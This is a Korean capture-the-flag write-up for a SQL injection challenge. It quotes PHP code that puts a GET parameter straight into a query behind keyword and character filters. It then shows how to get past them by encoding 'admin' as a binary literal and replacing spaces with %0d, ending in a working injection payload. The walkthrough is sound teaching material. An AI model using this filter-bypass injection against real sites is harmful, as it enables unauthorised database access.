



# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**




# **Write-Up**

view-source를 통해 소스를 보면 여러 필터링을 통해 select의 결과가 admin이면 점수를 획득할 수 있다.

```php
... 생략 ...
<?php
  if($_GET['lv']){
    $db = dbconnect();
    $_GET['lv'] = addslashes($_GET['lv']);
    $_GET['lv'] = str_replace(" ","",$_GET['lv']);
    $_GET['lv'] = str_replace("/","",$_GET['lv']);
    $_GET['lv'] = str_replace("*","",$_GET['lv']);
    $_GET['lv'] = str_replace("%","",$_GET['lv']);
    if(preg_match("/select|0x|limit|cash/i",$_GET['lv'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select id,cash from chall46 where lv=$_GET[lv]"));
    if($result){
      echo("{$result['id']} information<br><br>money : {$result['cash']}");
      if($result['id'] == "admin") solve(46);
    }
  }
?>
... 생략 ...
```

0 혹은 5이상이면 데이터가 없는 듯 하다.



0 or id='admin'을 입력하면 id가 admin인 id와 cash를 select할 것이다.

따옴표가 addslashes에 의해 막히므로 admin을 hex값 혹은 binary치환하면 되지만 pregmatch에서 hex값이 필터링된다. 따라서 binary로 넣자.

```python
import binascii
print(bin(int(binascii.hexlify("admin".encode()),16)))

[Output]
0b110000101100100011011010110100101101110
```

공백도 필터링 되므로 %0d같은 것으로 치환하자.

    0%0dor%0did=0b110000101100100011011010110100101101110
    
